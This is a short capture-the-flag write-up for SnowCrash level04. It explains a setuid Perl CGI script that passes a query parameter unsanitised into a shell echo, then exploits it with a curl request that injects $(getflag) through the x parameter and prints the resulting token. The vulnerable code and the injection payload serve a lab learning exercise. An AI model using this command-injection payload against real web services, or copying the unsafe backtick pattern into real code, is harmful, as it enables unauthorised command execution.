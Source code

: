 when we start the level we get 

```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```

the 's' in the execute permitions means that when running the level04.pl script
it is actually run as the user flag04 

checking the code

```perl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

we see that this is a CGI (Common Gate Interface running at port 4747) we see a
similar structure that on last problems showing an echo we see that the first
parameter to the function is given to the variable "y" then that variable is
shown as echo finally this subrutine is run calling for the param("x")
(meaning the x  variable in the query string)

so the strategy here is to call a subshell in the variable y so ideally 
$(getflag) to do this (and consider expansions in shell) we run the following 
command 

```bash
level04@SnowCrash:~$ curl localhost:4747?x='"$(getflag)"'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```